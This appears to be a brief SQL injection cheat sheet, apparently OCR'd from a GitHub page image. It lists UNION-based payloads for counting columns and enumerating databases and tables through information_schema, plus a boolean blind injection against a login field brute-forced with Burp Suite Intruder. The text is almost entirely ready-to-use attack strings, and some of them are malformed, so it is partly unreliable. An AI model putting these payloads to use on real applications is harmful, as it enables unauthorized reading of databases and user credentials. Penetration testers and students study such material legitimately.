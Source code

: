     1' UNION SELECT NULL,NULL-- -

## TIP:

#### Keep adding NULL until you see an error. The last correct query reveals the amount of columns in the database.

    group_concat(table_name)

## Manual Enumeration

#### 1) 

    ' (Error Based)

#### 2) 

    '1 order by (num)' (column enumeration)

#### 3) 

    '1 UNION SELECT database()'

#### 4) 

    '1 UNION SELECT concat(schema_name)' from information_schema.schema'

#### 5) 

    '1 UNION SELECT table_name from information_schema.tables WHERE table_schema = database()'

#### 6) 

    '1 UNION SELECT 1, concat(+1," ",+2, " ",+3),3,4 from "name"

## BOOLEAN BLIND SQL INJECTION 

### Tools: Burpsuite Intruder Sniper Mode

### Usage:

#### 1) 

    admin' and substring(database(),1,1)="$a$" #&password=password 

#### 2) Intruder mode: Sniper. Payload list: Whole alphabet and numbers

#### 3) Essentially, we brute-force the database to give us an answer if the letter/number exists (hence the boolean-based SQLi) based on the function/database content (users/passwords) it contains.
